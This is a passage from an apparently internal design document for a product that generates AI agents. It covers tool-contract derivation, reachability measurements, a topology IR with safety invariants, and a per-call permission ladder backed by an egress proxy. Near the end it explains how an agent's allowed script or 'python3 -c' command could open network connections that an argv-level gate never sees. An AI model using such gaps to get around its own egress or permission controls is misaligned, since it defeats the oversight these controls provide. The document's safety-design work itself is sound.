> | Build line: **promotion selection**, **effect classification** | **Deferred to v2** | No catalogue is emitted in v1, so there is nothing to select from and nothing to label. Both remain correct v2 work carrying OD-07's measured ~~2.8×–9.3×~~ ~~2.2×–9.3×~~ **2.20×–4.366× within session, plus a cross-session n = 2 observation near an order of magnitude** cost advantage and **its two liabilities** — *(range restated 2026-08-03 and flagged for the owner under §3.1; the lower bound is unchanged, the upper bound is narrowed rather than corrected, and the second liability is the fail-open immunity failing to transfer to synthesis — D-21, C-18, U-46)*. **Promotion selection also gains a cost argument it did not have**: each tool on the surface costs **541 to 557 tokens per request** on every task it does not help, so a surface's size is a per-request tax and selection is the mechanism that pays it down |
> | Build line: **contract derivation** | **v1 — and it is now half the product** | It feeds the verifier (§2.6), which OD-09 promotes to one of two v1 differentiators |
> | Rules 1 and 2 (trust-boundary synthesis, outcome-named consolidation) | **Deferred to v2** | Both are rules about how to *emit a tool*. Rule 2's evidence is unaffected and is reinforced by D-19 |
> | Rule 3 (`authorization: UNRESOLVED`, and the 0.98 kill criterion) | **Split — and its second half is *wrong* as written, not deferred** | See the inline note on rule 3 and **D-16** |
> | Rule 4 (reachability) | **v1 — and promoted** | Under the pivot the served-operation set is the specification the agent reads, not an annotation on a catalogue. It moved from precondition to product |
> | Rule 5 (provenance / `validated` flag, D-17) | **v1, unchanged** | It governs derived contracts, and derived contracts are v1 |
> | The tool-contract YAML and the naming block | **Deferred to v2** | They describe the shape of an artifact v1 does not emit. The `provenance:` sub-block is the exception: it survives attached to the contract rather than to a tool |
>
> **One thing this table must not be read as saying.** Deferring effect classification does **not** defer the safety obligation. Constitution Principle IV (NON-NEGOTIABLE) binds every emitted tool, and v1 emits a shell and an HTTP client that can issue `DELETE`. What defers is the *static label on a synthesized tool*; what replaces it in v1 is a tier resolved **per call** at a blocking interception point (**D-22**, **C-16**, §2.6). The trifecta check enforced "by construction" on the YAML below has no artifact to attach to in v1 and must move to that same runtime point — which is a materially weaker guarantee, because a compile-time check over a fixed catalogue is decidable and a per-call check over a general shell is not.

**Build:** promotion selection ~~(v1)~~ **— v2, OD-09**, effect classification ~~(v1)~~ **— v2 as a static label, but see D-22: the obligation is v1 and moves to runtime**, contract derivation **— v1, retained**. ~~This is the moat; it gets the best engineer.~~ **The moat sentence is superseded: under OD-09 the v1 moat is the verifier and the drift detector (§1.2), and this layer contributes to the first of those only through contract derivation.**

Three rules that fall out of the corpus and should be written into the spec:

1. **Synthesize at the trust boundary, not the function boundary** ([07](./07-product-vision.md) §3.2). A tool corresponds to something the application already lets an external caller do — because that is where authorization, validation, rate limiting, and audit live. In-process synthesis bypasses all four.
2. **Consolidate into outcome-named tools.** `create_recipe_from_url` beats `POST /api/recipes/create-url` plus four helpers. This is the FastMCP author's warning made actionable ([09](./09-mcp-as-tool-surface.md) §5) and the single most-cited reason mechanical converters produce servers that fail in practice.
3. **Generated tools default to `authorization: UNRESOLVED`.** Static analysis of a data-access layer structurally strips authorization, because in a well-factored app authz lives above that layer ([08](./08-auth-identity-and-secrets.md) §3.4). An unresolved label is honest; a wrong `read_only` label is dangerous. ~~[11](./11-validation-plan.md)'s kill criterion is unambiguous: **no writes at any scope if effect-classification precision on the read-only label is below 0.98.**~~ **Wrong as stated after 2026-08-02, and wrong rather than merely narrowed — see D-16.** The criterion conditions v1 writes on a quantity that, under OD-09, **nothing in v1 computes**: there is no derived `read_only` label whose precision could be measured, so read literally the gate can never open and v1 can never write, which is not what OD-09 decided. The *principle* underneath it is untouched and is now enforced elsewhere: writes require a classification you can defend, and the defensible v1 classification is the **request's own verb resolved at call time** rather than a statically derived label (D-22). The first half of this rule — default to `UNRESOLVED`, never guess — survives verbatim and applies to the per-call tier: an unclassifiable call is `UNKNOWN` and `UNKNOWN` gates.
4. **A declared endpoint is not a served endpoint, and the candidate set must be checked for reachability before it is trusted.** Static analysis recovers what the source declares; a deployment serves some subset chosen by its configuration. Measured on `adk-python`, the two differ by a factor of **3.1**: scored against the union of five deployment configurations, precision is 1.0000, but scored against the `adk api_server` configuration alone it is **0.3188** — 69 recovered routes against **22** that are both served and recovered, so 47 of the 69 are real, correctly-parsed source guarded by `if web:` or `if a2a:` and are never served ([finding 004](../specs/001-discovery-validation/findings/004-recall-against-authoritative-key.md) §4). This entry previously quoted the same measurement as a factor of 2.6, which is 69 against the 27 operations that configuration serves *in total*; 3.1 is the ratio against the recovered set, which is the set this rule governs, and [finding 010](../specs/001-discovery-validation/findings/010-deployment-reachability.md) states it that way. No better parser closes the gap, because it is not a parsing defect. **The mechanism that closes it is now named and measured: D-18.** Probe the running deployment as a pipeline precondition, fall back to configuration parsing only for targets that cannot be run, and carry a reachability precondition on every emitted tool. **Scoped 2026-08-02: the probe closes this gap at *path* granularity.** Where a deployment publishes a schema the answer is exact at operation granularity too, but a schema-free probe is not — on a path that serves `GET` and withholds `POST`, operation-granularity precision is **0.8000**, and every measured error in that experiment is a method-level one ([finding 011](../specs/001-discovery-validation/findings/011-reachability-without-schema.md), U-39). So this rule holds as written for paths, and a catalogue that attaches verbs to a schema-free target is making a claim the mechanism did not verify. **Layering fixed 2026-08-02 by `plan.md` OD-06, and it changes *where* the check happens rather than *whether* it does.** The check is not performed inline on the analysis layer's own output. Analysis emits the candidate set, a separate reachability stage annotates it with what a named deployment serves, and synthesis consumes both. Read "checked for reachability before it is trusted" as **annotated by a second artifact carrying its own version stream and its own deployment identity**, never as a filter applied in place — a filter would fuse the two and make the candidate set a function of whichever deployment answered, which is precisely what the constitution's *rebuildable from the codebase alone* constraint exists to prevent (§2.1, §2.2, §3.1 D-18).
5. **A derived contract carries its provenance and its validation result, or it is marked provisional.** Added 2026-08-02 as D-17, on the strength of two independent measurements producing the same failure. A derivation that stops one inheritance hop short of a Pydantic `alias_generator` emits contracts with the right field count, locations, types, and required flags, and **every field name wrong on the wire** — 15 of 69 endpoints, with nothing in the output indicating it ([finding 007](../specs/001-discovery-validation/findings/007-contract-extraction.md) §4). The rule that follows is not "handle alias generators." It is that **a type in the source is not the interface**, the transformation between them is declared somewhere a naive reader is not looking, and the only thing that catches it is a check against a description the derivation did not produce.

**Adopt:** OpenAPI parsing, JSON Schema tooling, and — for the *initial candidate set only* — the same mechanical extraction the commoditized tools perform. The candidate set is free; the selection is the product. **But "free" now carries a measured caveat:** the candidate set can be a multiple of the served surface, so a reachability check is a precondition of trusting it, not a refinement of it (rule 4 above).

**A larger adopt is now on the table for contracts specifically, and it changes the shape of this layer rather than tuning it.** [finding 007](../specs/001-discovery-validation/findings/007-contract-extraction.md) used the target's own OpenAPI schema as ground truth and, in doing so, showed it works as an *input*: where a target publishes one, the parameter and return contract arrive free and correct, and static derivation is needed only for exceptions — where it is strictly more informative than the schema, since this application's schema declares only `{200, 422}` while 37 endpoints raise codes it never mentions — and for targets that publish nothing. **Two cautions before treating that as settled.** The schema describes one deployment configuration, which is the same trap as rule 4, so it must be read across configurations rather than fetched once. And it is a floor rather than a ceiling: for `POST /run_sse` the framework publishes an empty response schema while the static walk recovers all nine request body fields and two raise sites with status codes 400 and 404.

**Decided 2026-08-02: yes, an input — for reachability and contracts jointly, one fetch per deployment configuration** ([finding 010](../specs/001-discovery-validation/findings/010-deployment-reachability.md) §4, D-18). E14 settled it jointly with reachability rather than separately, because both wanted the same fetch from the same running instance and deciding them apart would have paid for it twice and risked two incompatible answers. **Both cautions above were measured and both hold.** Per configuration and never once: the same source tree publishes 22 operations under `api_server` and 67 under `web_triggers`, so a schema fetched from staging and applied to production is rule 4 wearing a different hat. And a floor rather than a ceiling: over the intersection with the statically recovered set the schema is exact — precision 1.0000, recall 1.0000, zero served operations dropped across eight configurations, with the gap to in-process route-table introspection exactly zero — but over the *full* served surface it covers only **0.8148–0.9206**, missing WebSockets, static mounts, framework documentation routes, and runtime-computed prefixes. So every artifact derived from it is labelled as the OpenAPI-visible subset, and finding 007's `POST /run_sse` counter-example stands unchanged. **A third caution is added, and it is the largest hole under this decision: the schema is unavailable by design on some production deployments.** `openapi_url=None` and auth-gated schemas are routine and **neither was tested** (U-34, scheduled as E15).

**E15 returned 2026-08-02, and it changes what the third caution means rather than closing it** ([finding 011](../specs/001-discovery-validation/findings/011-reachability-without-schema.md)). Four points, in the order they bear on this layer.

1. **Reachability survives the schema's removal intact.** Measured across four FastAPI configurations differing only in schema availability, the schema-free path-level probe scored **precision 1.0000 and recall 1.0000 on `ABSENT`, `FORBIDDEN` and `EMPTY`**, identical to the schema-present control, while the schema fetch fell to **0.0000 recall** on all three. So the schema is not what makes reachability work on a runnable target.
2. **What the schema uniquely supplies is enumeration, and this section did not distinguish that from filtering.** A probe can only ask about paths it was given; the schema volunteers paths nobody proposed. Finding 010 measured **8 of 77 served operations outside the recovered set, two of them real** — and without the schema **the size of that blindness is not measurable at all.** Coverage does not transfer; accuracy does.
3. **The schema-free path costs 67 requests against 1** on this target, each a method-mismatch probe visible in the deployment's access log and error metrics. That is a real operational difference, not only a latency one.
4. **A fourth schema state exists and it defeats the obvious implementation.** Classify `/openapi.json` as `PRESENT`, `ABSENT` (404), `FORBIDDEN` (401/403), or **`EMPTY` (2xx carrying no paths)** before using it. A pipeline that splits on whether the fetch succeeded is correct on 6 of 7 targets and reads a pathless 200 as `PRESENT`, emitting a catalogue of zero operations and reporting success. Measured 7/7 on the four-state classifier.

**And one correction that lands on the contract half of this decision rather than the reachability half.** This section says the schema supplies parameters and return types "free and correct" as a pipeline *input*. That is a design proposal, not something the measurement exercised: E15 checked E4's committed harness and **`extract_contracts.py` takes `--repo`, `--db` and `--out` and accepts no schema input at all** — the schema was only ever ground truth. So with the schema removed, **every derived component is retained and nothing moves**: 60/69 endpoints with a contract, 207 parameters, 53 return types, all unchanged. What is lost is the *validated* reading, which goes from **53/69 (0.7681) to 0/69 — uncomputable.** That is worse than a lower number, because **the degradation is invisible in every quantity the pipeline produces**, which is precisely what D-17 exists to forbid. A catalogue built against a schema-free target must therefore carry a per-contract `validated: false`, or it asserts agreement with an authority it never consulted.

**Which of the above sits in which artifact — settled 2026-08-02 by `plan.md` OD-06, and this is the part of that decision that lands on contracts rather than on reachability.** The fetch is one fetch, but it feeds two artifacts with different lifecycles, and this section was written as though it fed one. Three consequences, in the order they bite. **The reachability half moves out of this layer entirely** and into the stage above (§2.1, §2.2). **Contract *validation* against the fetched schema stays**, because it is D-17 requirement (2) — a check against a description the derivation did not produce — and a check does not put a network-dependent input underneath the derived value; what it puts there is a `validated: true/false` field, which is exactly the shape requirement (3) already demands. **Contract *derivation* from the fetched schema is the one that has to be re-placed**, and the paragraph above makes it cheap to say so: `extract_contracts.py` accepts no schema input, so **nothing is derived from the schema today and there is no migration to pay for**. The rule to write down before that changes is that a contract field whose only source is a fetched schema is **deployment-derived, not source-derived**, so it belongs beside the reachability annotation and carries that artifact's deployment identity rather than the code graph's content hash. Emitting it into the source-derived artifact would reintroduce the fusion OD-06 exists to prevent, one layer away from where anyone would look for it.

**The generated tool contract — v2 shape, deferred 2026-08-02 with synthesis (`plan.md` OD-09); the `contract:` and `provenance:` sub-blocks are the v1 remainder and attach to a derived contract with no tool around it** (illustrative, not runnable — the shape is the point):

```yaml
# What a synthesized tool must carry internally. Note what MCP cannot express.
name: create_recipe_from_url          # outcome-named, not endpoint-named
consolidates:                          # provenance for review and drift detection
  - POST /api/recipes/create-url
  - GET  /api/recipes/{slug}
effects:
  read_only: false                     # ← no slot for this in MCP's tool schema
  destructive: false
  egress: true                         # fetches an arbitrary external URL
authorization: UNRESOLVED              # DEFAULT. Static analysis of the DAL
                                       # structurally strips authz; do not guess.
credentials:
  - credential_ref: mealie_api_token   # a handle. never the secret.
    plane: resource
contract:                              # derived, not written by a model
  returns: Recipe                      # from the response model
  raises: [409 DuplicateSlug, 422 UnparseableSource]
  postcondition: "recipes WHERE slug = $return.slug has exactly 1 row"
  provenance:                          # D-17. added 2026-08-02 — see below
    params:  {rule: pydantic_model_walk, source: models/recipe.py:RecipeIn,
              validated_against: openapi, result: agree}
    returns: {rule: response_model_kwarg, source: routes/recipes.py:88,
              validated_against: openapi, result: agree}
    raises:  {rule: handler_body_walk_depth_1, source: routes/recipes.py:88,
              validated_against: none, confidence: provisional}
verified_by:
  - tests/test_recipe_import.py::test_create_from_url
```

Two rules the schema enforces by construction: `authorization` cannot be omitted, only explicitly resolved; and a tool with `egress: true` composed into a topology that also holds `read_only: false` resource-plane tools fails the compile-time trifecta check.

**Both rules lose their enforcement point in v1 and only one of them survives the move (`plan.md` OD-09).** The first does: `UNRESOLVED`-by-default becomes `UNKNOWN`-gates at the interception point (D-22), which is the same rule at a different granularity. The second does **not** survive in equivalent strength, and this should be recorded as a loss rather than a relocation. A compile-time trifecta check ranges over a finite, inspectable catalogue and is **decidable before the agent runs**; a v1 agent holds a shell and an HTTP client, so whether the session assembles private data, untrusted content and egress is a property of the *trajectory*, discoverable only while it is happening. C-16 carries this; §7.6 is where it bites.

**The `provenance` block is new as of 2026-08-02 and it is a third rule of the same kind, not decoration** (D-17). The shape above previously carried `contract:` as bare derived values with the comment "derived, not written by a model," which asserts where the values did *not* come from without recording where they did. Two measurements now say that is insufficient: a derivation that stops one inheritance hop short produces field names that are wrong on the wire in 15 of 69 endpoints with nothing in the artifact indicating it ([finding 007](../specs/001-discovery-validation/findings/007-contract-extraction.md) §4), and the `docstring` field failed the same way for a different reason (U-27). So each derived group records the rule that produced it, the symbol it came from, what it was validated against, and the outcome — and `validated_against: none` forces `confidence: provisional`, which is the honest state of the `raises` group on every target measured so far (U-33). The rule the schema enforces by construction is that **a consumer requiring a validated contract fails closed on a provisional one**, rather than reading it as fact.

**Naming, which is not cosmetic:**

```text
✅ create_recipe_from_url      — an outcome a user would ask for
❌ post_api_recipes_create_url — a transport detail the model must decode
❌ recipe_service_handler      — an implementation noun with no outcome
```

The bad forms are what mechanical conversion emits, and they are the specific failure the FastMCP author describes as servers that "technically work but fail in practice."

### 2.5 Layer 4 — Representation (the topology IR)

**Build:** a serializable, content-addressed, versioned IR with a **machine-checkable invariants block** ([03](./03-graph-and-loop-architecture.md) §5). Content addressing is what makes topology diffs reviewable and makes "the agent's behavior changed without a diff" impossible.

Two hard requirements, both stolen rather than invented:

- **Static rejection of unconditional cycles**, ~10 lines of DFS, taken directly from ADK's `_graph_validation.py` ([10](./10-topology-in-practice.md) §4). [10](./10-topology-in-practice.md) §12 identifies this as the *only* guarantee a graph provides that a loop plus a budget cap cannot — and exactly the bug a call-graph-derived generator will emit, because call graphs contain cycles routinely.
- **Represent always, execute conditionally**, with [10](./10-topology-in-practice.md)'s refined trigger: escalate from loop to explicit execution when **the plan is held outside the model** — a measurable property and Anthropic's own axis — not when someone judges a step "mandatory."

**Why represent even when you execute as a loop:** the IR is the review artifact, the diff surface, the drift detector's baseline, and the thing you serialize for support. Its cost is a serialization format; its value is auditability.

**Shape of the IR** (illustrative):

```yaml
topology: 3f9a1c...            # content hash of the normalized body
version: 2                     # monotonic; a diff between versions is reviewable
execution: loop                # loop | journaled   (D-10: who holds the plan)
agents:
  - id: recipes
    context: bounded_context/recipes   # from the boundary-inference layer
    tools: [create_recipe_from_url, search_recipes, ...]
    budget: { tokens: 400_000, tool_calls: 60, wall_clock_s: 900 }
invariants:                    # machine-checkable. CI fails on violation.
  - no_unconditional_cycles              # ADK's DFS, ~10 lines
  - no_trifecta: [private_data, untrusted_content, egress]
  - every_agent_has_termination          # MAST's largest failure sub-category
  - writes_single_threaded               # Cognition's condition (C-08)
  - destructive_ops_gated_in_topology    # not in the system prompt
```

**Narrowed 2026-08-02 by `plan.md` OD-09, and the narrowing falls on the `invariants:` block rather than on the idea of an IR.** Three of the five invariants keep their subject and two lose it. `no_unconditional_cycles` and `every_agent_has_termination` are unaffected — a single agent still needs a termination condition, and it needs one more urgently in a runtime than in a generator. `destructive_ops_gated_in_topology` survives and is *strengthened*: it now names the D-22 interception point, which is the whole of Principle IV's enforcement in v1. `writes_single_threaded` is trivially satisfied by one agent and should be understood as a v2 invariant held in reserve rather than a v1 check that passes. **`no_trifecta` is the loss and it should be recorded as one** — the check ranges over the effect labels of a synthesized catalogue, and v1 has none, so it cannot be evaluated at compile time at all (C-16, §7.6). The `agents:` list collapses to one entry and its `tools:` field names general tools plus a specification handle rather than a promoted set. Content addressing is untouched and matters more than before, because under OD-09 drift detection is half the product and the content hash is what it diffs against.

`every_agent_has_termination` earns its place on evidence: missing termination conditions is the **largest single sub-category** in Berkeley's MAST failure taxonomy ([01](./01-agent-anatomy.md) §7.3). Making it a compile-time invariant costs a schema field and removes the most common architectural failure by construction.

**One correction the measurement forces, and it applies to the `budget:` field as much as to the invariant** ([finding 006](../specs/001-discovery-validation/findings/006-graph-loop-primitives.md)). The IR above declares `budget: { tokens, tool_calls, wall_clock_s }` and asserts `every_agent_has_termination`, and both were written as though the runtime would honour them. It does not. ADK 2.6.1 enforces **none of those three dimensions** — no token ceiling, no wall-clock ceiling, and `tool_calls` only in the narrower sense of `max_llm_calls`, which counts model calls rather than tool calls and resets on resume. Nor does it carry any terminal-condition taxonomy for `every_agent_has_termination` to bind to at run time. **So both are compile-time assertions with no runtime counterpart until we build one**, which is the terminal-condition wrapper and the budget channel in §2.6. Stated the other way round: a topology that passes every invariant in the block above can still run 1,292 iterations of an unconditional cycle and report nothing distinguishable from success, because the invariant checks the *declaration* and nothing was checking the *execution*. The DFS cycle rejection is the exception — it is a genuine static guarantee and it was in fact lifted from ADK's own `_graph_validation.py`.

### 2.6 Layer 5 — Execution

> **Superseded in part 2026-08-03 for v1 by `plan.md` OD-15 — the *adopt* is withdrawn, the *build* list grows, and no measurement below changes.** There is no thin substrate: v1 runs on no agent framework, and the loop, the runner, the session store, checkpoint and resume, tool-schema translation, the per-provider cost table, the terminal signals and the event stream are all ours. Everything this section says about ADK stays as the measured record of a substrate v1 no longer uses; **do not read any of it as a description of what v1 sits on.** The build-item table below keeps its estimates and **loses its scope claim** — see the note after it. This paragraph's second and third sentences (the Claude-SDK-as-executor retirement, D-04, the 40× tax) are untouched by OD-15 and remain live.

**Adopt (thin substrate):** ~~ADK's graph execution, lifecycle, and session machinery~~ — **nothing; see the banner above** — and *nothing* of its loop-safety machinery. **This changed on 2026-08-02 and the change is a decision, not a measurement** (`plan.md` OD-01, OD-02, folded into D-05; **and again on 2026-08-03, OD-15**). This section previously read "adopt the Claude Agent SDK as the executor inside coding nodes," on the strength of its `claude_code` tool preset, its 10 hook events, `can_use_tool`, and its being alone among the surveyed SDKs in enforcing a budget denominated in spend. **Two things retired that position.** The SDK is Anthropic-only for any genuinely different model family ([finding 003](../specs/001-discovery-validation/findings/003-runtime-provider-agnosticism.md)), which conflicts with D-04's bring-your-own-credentials as a hard requirement rather than as a trade-off — a customer arriving with only an OpenAI key would have no working coding nodes. And its budget advantage shrinks to nothing once OD-01 commits us to building budget enforcement anyway. **The coding-node executor is therefore built on ADK, with the Claude SDK retained as an opt-in fast path for Anthropic customers**, where its measured 40× input-context tax is a known and accepted cost. One thing this does *not* change: [11](./11-validation-plan.md) §6's baseline arm A0 is still the Claude SDK with `allowed_tools` restricted to bash/read/grep, because *a weak baseline is the most common way to fake a positive result* — the baseline is deliberately an external product and OD-02 has no bearing on it.

**Build:** the loop itself, the context assembler, the truncation policy, the termination rule set, the journaled imperative mode, and — new under OD-02 — **the coding-node tool preset and permission interception that the Claude SDK would have supplied.** [02](./02-agent-harnesses.md)'s verdict is the load-bearing one: **`function2agent` *is* a harness generator, so adopting a harness means adopting a competitor's opinions about your core product.** OD-01 applies that test one layer finer than the sentence itself does. Graph execution, lifecycle, serving, and the provider bridge never see prompts or tokens, so they are adoptable. Budgets and terminal conditions decide *when the model stops spending*, which is the product, so they are not. **The seam is execution versus safety, not framework versus library.**

**Four build items are measured, named, and sized, and they sit on the critical path** ([finding 006](../specs/001-discovery-validation/findings/006-graph-loop-primitives.md), scope fixed by OD-01). The outer runtime was probed against the four loop-safety primitives this architecture assumes; we now build all four regardless of which ones it supplies, because *partial* provision is the condition that invites reliance. Sizing is engineering judgment calibrated against measured behaviour, not itself a measurement.

| Build item | What the measurement showed | Estimate |
|---|---|---|
| **Terminal-condition wrapper** over `run_async` | ADK names errors well and names budget exhaustion by exception type, but carries **no terminal-name field at all** and no notion of `goal_satisfied`, `max_steps`, `budget_cost`, `wall_clock`, or `no_progress`. Clean completion and mid-loop cancellation are distinguishable only by the boolean `actions.end_of_agent`, and only when the `@experimental` `is_resumable` flag is on — which it is not by default. FR-002 requires the terminal recorded by name. | 2–3 days |
| **Budget channel and enforcement plugin**, persisted in session state | The only ceiling is `max_llm_calls` (default 500). No token, cost, wall-clock or graph-step ceiling exists anywhere in `agents/`, `runners.py`, or `workflow/`. The one that exists resets on resume. Build on `BasePlugin.before_model_callback` / `after_model_callback` for token accumulation and `on_event_callback` for step counting. Needs a per-provider cost table, which [finding 003](../specs/001-discovery-validation/findings/003-runtime-provider-agnosticism.md) showed cannot be assumed uniform. | 4–5 days |
| **Idempotency and inner-loop journaling** | Resume is at-least-once, and a loop hosted inside a node lost **4 of 4** completed inner turns. Hosting our own loop inside a node is the intended architecture, so this is not an edge case. **Not an ADK deficiency** — see the durable-execution note below. | 1–1.5 weeks |
| **Deterministic fan-out ordering** | **No longer contingent — OD-01 commits it.** Sequential replay is deterministic (1 distinct trace across 4 replays from a byte-identical checkpoint); fan-out with overlapping latencies produced **5 distinct orderings across 8 runs**. This was previously scoped as "only if replayable *parallel* trajectories turn out to be required"; OD-01 names deterministic ordering under fan-out as one of the four primitives we own outright, so the conditional is spent. **Re-based 2026-08-03 by OD-15 and this row is the one that must not be read as lapsing.** The *measurements* were ADK's completion-order scheduler and its reducer-free state model, including the **silent lost update** where a concurrent write to a shared key vanished with no error and no warning. **The *hazard* is the providers'** — every provider in SC-010's set can emit parallel tool calls in one turn — so it reaches a v1 that emits no graph at all, and with ADK gone **v1 owns the mitigation outright**: ordering discipline and a write path that cannot lose a concurrent update. The owner is this row plus the production research's T-08. The 1–2 days is ADK-shaped like the rest and is not re-derived. | 1–2 days |

**Total: roughly 2.5–3.5 weeks for one engineer**, of which the journaling layer is over half. **OD-01 confirms that figure and shifts where inside it we should plan to land.** Two revisions were expected on 2026-08-02 and only one materialized. The one that did: committing fan-out ordering raises the floor from 11–15.5 days to 12–17.5 days, so the honest read of the same range is now its upper half — call it three weeks rather than two and a half. The one that did not: these estimates were ADK-shaped, and had the owner taken the *missing* reading of O-06 they would have needed re-deriving against a substrate we own, almost certainly upward. **OD-01 keeps us inside ADK's graph execution, so the shapes hold and the numbers are validated rather than stale.** The wrapper still wraps `run_async`, the budget channel still rides `BasePlugin` callbacks and session state, and the journal still sits above ADK's event stream.

> **The revision that "did not materialize" has now materialized, 2026-08-03, `plan.md` OD-15.** The paragraph above is exactly the contingency it describes: *"these estimates were ADK-shaped, and had the owner taken the missing reading of O-06 they would have needed re-deriving against a substrate we own, almost certainly upward."* The owner did not take the missing reading of O-06 — that stands — but OD-15 removes the substrate anyway, which arrives at the same place by a different route. **So the four estimates above are ADK-shaped and their anchors are gone**: there is no `run_async` to wrap, no `BasePlugin` callback to ride, and no ADK event stream for the journal to sit above. **The four items still have to be built, the numbers are no longer validated, and no re-derived figure exists in any committed artifact.**
>
> **Worse, the 2.5–3.5 weeks never covered what OD-15 adds.** It was scoped to loop safety with execution, lifecycle, sessions and the provider bridge adopted. All of those are now build items — the agent loop, the runner, the session store, checkpoint and resume, tool-schema translation, the per-provider cost table, `max_llm_calls` as a backstop, the raw terminal signals, and the event stream §2.8's surface renders. **Nine capabilities, no estimate. Recorded as unsized (U-48) rather than guessed at**, which is the same discipline the OD-02 paragraph below already applies to a smaller item.
>
> **One primitive changes direction and it is the one that looks like a gain.** Checkpoint and resume was the single primitive finding 006 measured **present and working, 5/5 reproducible**, on ADK's event-sourced replay over `SqliteSessionService`. v1's turn-and-step journal is a *finer* granularity than ADK could offer, and it is no longer competing with a second persistence mechanism it could not see — that is a real simplification. **But "present" transferred and does not any more: v1 has no measured resume machinery at all.** Finding 006's *two of four missing against a threshold of three* was a statement about ADK; it is not a statement about v1's substrate, in either direction, and must not be cited as one.

**One item OD-02 adds is genuinely unsized, and it is not inside the 2.5–3.5 weeks.** That figure was scoped to loop safety alone, while the coding-node executor was an adopt. Under OD-02 it is a build: the `claude_code` tool preset has to be reproduced as ADK tools (read, write, edit, bash, grep, glob), the 10 hook events and `can_use_tool` have to be reproduced as the interception point D-06 and constitution Principle IV require anyway, and the SDK path has to survive as a second executor behind the same interface. **No estimate is offered here because none has been derived; recording it as unsized is more useful than guessing.** The permission-interception half is work D-06 already owed regardless of executor, so the incremental cost is smaller than the item's full scope suggests.

**A fifth build item is added 2026-08-02, and it is the one item OD-09 *adds* to v1 rather than removing** (D-22, C-16). The permission-interception point named in the paragraph above stops being a convenience the Claude SDK would otherwise have supplied and becomes the **sole** place constitution Principle IV can be satisfied. Principle IV binds every emitted tool to a tier — read-only, reversible-write, irreversible/destructive — enforced by something that can block. With synthesis deferred there is no tool carrying a precomputed tier, and a shell and an HTTP client are not classifiable at the tool level at all: `curl` is read-only or destructive depending on the verb in the argument list. So **the tier is resolved per call, from the call, at the interception point**, and the interception point becomes a *classifier* as well as an enforcer. The resolution rule, in priority order, and the last clause is the one that makes it safe:

```text
1. HTTP call whose (method, path) matches a served operation in the spec
     GET | HEAD | OPTIONS      → read_only
     POST | PUT | PATCH        → reversible_write
     DELETE                    → irreversible          ← from the spec, free
2. HTTP call to the target that matches no served operation   → UNKNOWN
3. Shell command matched by a deny rule (§2.6, D-06 ordering)  → blocked outright
4. Anything else — shell, unmatched egress, opaque argv        → UNKNOWN
5. UNKNOWN gates. It does not default to read_only, and it does not
   default to blocked either: it goes to a human who is shown the
   RESOLVED call, not the template that produced it.
```

**AMENDED 2026-08-03 by `plan.md` OD-10 — v1 is read-only, so step 5 is replaced and steps 1–4 keep
their labels but lose three of their four dispositions.** The resolution rule still runs exactly as
written; what changes is what each outcome is allowed to do:

```text
5'. Disposition, v1:
      read_only, AND the operation is not on the side-effecting-read
                 deny list                                  → allow
      reversible_write | irreversible | UNKNOWN             → DENY,
                 with a legible reason so the agent can find a safer path
    Nothing escalates to a human at runtime. There is no approval path,
    because there is no write to approve.
```

**Two things this does not change and one it adds.** It does not remove the interception point —
default-deny is a disposition, and something has to compute it, so the fifth build item is unaffected
in size and *increases* in importance. It does not make step 1's crudeness harmless: a `GET` that
writes is still classified `read_only`, and that single error shape is now the entire content of U-43.
**What it adds is the deny list**, which is v1's only defence against that shape — a stated,
unvalidated rule set, reviewed as configuration under D-15, and **the reason "provably read-only" is
not a phrase v1 may use.**

**A third thing it changes that was not noticed on 2026-08-03, and it is not cosmetic — read step 4
against `5'` (C-17).** Step 4 sends *"anything else — shell, unmatched egress, opaque argv"* to
`UNKNOWN`, and **no step in the ladder ever resolves a shell command to `read_only`.** Before OD-10
that incompleteness was survivable, because `UNKNOWN` went to a human and an unparseable command was
a prompt. Under `5'` it is not: **`UNKNOWN` denies, so the ladder as written denies every shell
command v1 issues** — which nullifies OD-07's general fallback path, the one requirement the ceiling
test actually produced (C-15), and describes a product different from the one the pivot justified.
~~**Exactly one of two things is therefore true and the record currently asserts both.** Either the
ladder is read literally and v1 has no working shell; or shell commands are parsed and can resolve
`read_only`, in which case **the interception point cannot enforce egress at all**, because its
visibility ends at the argv of a command it has allowed — an allowed `python3 -c …`, `make`, or any
script opens a socket the gate never sees. **The second reading is the intended one and it is the
one that matters here:** an effect-tier gate is an *application-layer* control and egress is a
*network-layer* property, so the ladder's step 4 must not be quoted as evidence that v1 controls
egress. That is Principle IV's first bullet, not its second, and it needs an enforcement point below
the process rather than inside it (C-17, §2.9 non-negotiable 4, §7.6). **Which of the two readings
v1 ships is an owner decision, drafted at `plan.md` OD-12 (proposed).**~~

**✅ RESOLVED 2026-08-03 by `plan.md` OD-12, and the owner took neither of the two readings above.**
Both share a premise — that the effect gate and the egress control are the same mechanism, so a shell
command has to be classified for either to work — and **the resolution removes the premise.** Egress
and method enforcement move together into **one mandatory proxy that every outbound byte from the
sandbox traverses**, so the enforcing component sees a request whether it originated in the runtime's
HTTP client or in `curl` inside a shell. **Argv is no longer on the enforcement path for either
control, so the ladder does not need to classify shell and stops trying to.** Two sentences of the
struck paragraph survive intact and are the reason the resolution is shaped this way: an effect-tier
gate reading argv is an application-layer control, egress is a network-layer property, and Principle
IV puts them in different bullets. What is retracted is the conclusion that v1 had to *choose* between
a working shell and a controlled one.

**The ladder as it now stands. Its subject is a request at the proxy, not a call in the process, and
that change of subject is the whole of the fix.**

```text
Scope: every request the mandatory egress proxy sees, regardless of whether it
       originated in the runtime's HTTP client or in a shell command.

1. Not an HTTP request to the pinned target — another destination, a CONNECT,
   a protocol upgrade, non-HTTP bytes                          → denied at the
   network layer; it never reaches step 2
2. (method, path) matches a served operation in the spec
     GET | HEAD | OPTIONS   → read_only
     POST | PUT | PATCH     → reversible_write
     DELETE                 → irreversible        ← from the spec, free
3. Request to the target matching no served operation          → UNKNOWN
4. Disposition, v1:
     read_only, AND not on the side-effecting-read deny list   → allow
     reversible_write | irreversible | UNKNOWN                 → DENY,
                with a legible reason so the agent can find a safer path
```

**Three notes on the diff, because the deletions matter more than the additions.** ① **The old step 4
— *anything else: shell, unmatched egress, opaque argv* — is deleted as a category rather than
re-disposed.** The proxy never sees argv, so there is nothing for that row to range over. ② **`UNKNOWN`
survives and changes subject**, from an unparseable command to a request the proxy cannot match to a
served operation; its disposition is unchanged. ③ **The shell deny rules that were step 3 are not part
of this ladder and are not deleted.** They govern local, non-network effects — filesystem destruction,
process manipulation — they resolve before any permissive mode per the Codex Auto-review ordering
(§2.9), and they are a separate control from effect-tier resolution. **v1's shell executes**, and
